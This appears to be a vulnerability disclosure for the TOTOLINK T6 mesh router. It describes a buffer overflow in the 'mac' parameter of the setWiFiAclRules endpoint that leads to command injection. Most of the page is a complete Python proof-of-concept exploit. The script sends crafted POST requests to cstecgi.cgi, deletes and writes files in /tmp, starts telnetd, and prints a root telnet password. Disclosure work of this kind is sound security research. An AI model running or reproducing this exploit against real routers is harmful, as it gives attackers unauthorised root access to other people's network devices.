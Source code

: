 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability that lead to command injection. This vulnerability can be triggered through the topicurl `setWiFiAclRules`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

The `mac` parameter can cause a buffer overflow of `local_mac` due to the lack of length validation.

![image-1](1/1.png)

Buffer `local_mac` can overflow to buffer `wlan_interface_1`

![image-2](1/2.png)

So that we can control buffer `wlan_interface_1` to trigger command injection

![image-2](1/3.png)

# POC

```python
import requests, time, sys, os
import socket
import http.server
import socketserver
import threading

def execute_short_command(target_ip, cmd):
    http_sv = "http://%s/cgi-bin/cstecgi.cgi" % target_ip
    
    payload = '''
    {
        "topicurl":"setWiFiAclRules",
        "addEffect":"2",
        "mac":"AAAAAAAAAAAAAAAA;%s;"
    }
    ''' % cmd
    
    res = requests.post(http_sv, data=payload)
    
    if res.status_code == 200:
        return True
    else:
        return False
        
def enable_telnetd(target_ip):
    return execute_short_command(target_ip, "telnetd")

def write_file(target_ip, script, file_path):
    http_sv = "http://%s/cgi-bin/cstecgi.cgi" % target_ip
    
    for c in script:
        payload = "echo -n '%s'>>%s" % (c, file_path)
        execute_short_command(target_ip, payload)
        
if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("[-] Usage: <%s> target_ip my_ip" % sys.argv[0])
        exit(0)
    
    target_ip = sys.argv[1]
    my_ip = sys.argv[2]
    
    execute_short_command(target_ip, "rm /tmp/n")
    print("[+] Writing file. Please wait...")
    
    write_file(target_ip, "pwned by Elvis!!!", "/tmp/n")
    
    print("[+] File Wrote. Check '/tmp/n' file")
    
    enable_telnetd(target_ip)
    print("[+] BOF -> Command injection turn telnetd on. Try root/KL@UHeZ0")
```

[Video](https://www.youtube.com/watch?v=x_Qc6wtcdbk)


